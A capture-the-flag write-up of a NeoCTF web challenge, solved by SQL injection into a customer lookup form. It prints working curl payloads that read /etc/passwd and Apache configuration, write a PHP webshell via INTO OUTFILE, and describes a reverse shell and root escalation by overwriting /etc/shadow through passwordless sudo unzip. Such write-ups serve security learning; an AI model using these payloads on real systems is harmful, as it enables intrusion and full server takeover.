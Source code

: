 ### Solved by barrebas

NeoCTF was run during the week, which isn't optimal. This web500 challenge was fun and the rabbit hole was a bit deeper than the other challenges. Here goes!

We're presented with a form which is quite obviously vulnerable to SQL injection. The entire database could be dumped, but more importantly, the database user had FILE permission because we could this:

```bash
$ curl -vv -X POST 'http://45.55.51.22:8883/index.php' --data "search=' and 1=2 union all select load_file('/etc/passwd)' -- #"
```

This returned `/etc/passwd`. Trying INTO OUTFILE, which seemed to work, but we couldn't find the path for the webserver. The next obvious thing was to read `/etc/apache2/apache2.conf` but that didn't help us much further. However, `/etc/apache2/sites-enabled/000-default.conf` did exist:

```
$ curl -vv -X POST 'http://45.55.51.22:8883/index.php' --data "search=' and 1=2 union all select load_file('/etc/apache2/sites-enabled/000-default.conf') -- #"
* About to connect() to 45.55.51.22 port 8883 (#0)
*   Trying 45.55.51.22...
* connected
* Connected to 45.55.51.22 (45.55.51.22) port 8883 (#0)
> POST /index.php HTTP/1.1
> Host: 45.55.51.22:8883
> Accept: */*
> Content-Length: 95
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 95 out of 95 bytes
* additional stuff not fine transfer.c:1037: 0 0
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 200 OK
< Date: Wed, 16 Mar 2016 20:41:18 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.14
< Vary: Accept-Encoding
< Content-Length: 1488
< Content-Type: text/html
< 
<html>
<head>
<h1>Customer Database Lookup</h1>
</head>
<body>
Here you can look up the names of your customers!
<br>
<form action="index.php" method="post">
  Customer Name: <input type="text" name="search"><br>
  <input type="submit" value="Submit">
</form>
</body>
</html>
1 results. 
<VirtualHost *:80>
        ServerAdmin webmaster@localhost

        DocumentRoot /var/www/ecustomers
        <Directory />
                Options FollowSymLinks
                AllowOverride None
        </Directory>
        <Directory /var/www/vendors>
                Options Indexes FollowSymLinks MultiViews
                # To make wordpress .htaccess work
                AllowOverride FileInfo
                Order allow,deny
                allow from all
        </Directory>

        ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
        <Directory "/usr/lib/cgi-bin">
                AllowOverride None
                Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
                Order allow,deny
                Allow from all
        </Directory>
        DirectoryIndex index.php
        ErrorLog ${APACHE_LOG_DIR}/error.log
        ErrorDocument 404 /404.php
        # Possible values include: debug, info, notice, warn, error, crit,
        # alert, emerg.
        LogLevel warn

        CustomLog ${APACHE_LOG_DIR}/access.log combined
...snip...
```

 The webserver files lived at `/var/www/ecustomers`. A simple PHP webshell was uploaded: 
 
 
```bash
$ curl -vv -X POST 'http://45.55.51.22:8883/index.php' ' --data "search=' and 1=2 union all select 0x3c3f7068702073797374656d28245f4745545b2263225d293b203f3e0a into outfile '/var/www/ecustomers/c001.php' -- #"
```

Which merely contained this PHP code:

```php
<?php system($_GET["c"]); ?>
```

Now we could browse to `http://45.55.51.22:8883/c001.php?c=ls` and have command execution. Sweet. After poking around for a while, it was apparent that the flag wasn't available to the www-data user. `/etc/sudoers` contained a big hint, because user `www-data` could run `/usr/bin/unzip` as root without a password!

A PHP reverse shell was quickly uploaded and run; the netcat listener on a VPS came alive. The python pty trick was used to obtain a slightly more functional shell. 

`ssh` was not running so unzipping an authorized_keys file wasn't going to work. The next best thing was overwriting `/etc/shadow` to gain root privileges. 

```bash
$ cd /tmp
$ echo 'root:$6$xjrLUU2F$3CdzWMlLrqbFsJ7pFiZUf/yGZgZZCetcD2ovIuPJJbFua1.XTNwxZkWqdC9uzxf/MA7Ec36m.Cs81iidSNlbw.:16876:0:99999:7:::' > shadow
$ zip shadow.zip shadow
$ sudo /usr/bin/unzip shadow.zip -d /etc
```

This overwrote the shadow file and gave the root user a password of `1234567890` (I wasn't feeling very creative). A quick `su` to root later gave us the flag in `/root/flag.txt`: 

```bash
root@29f35ba7ec05:~# cat flag.txt
cat flag.txt
flag{9th_and_ash_is_my_favorite}
```

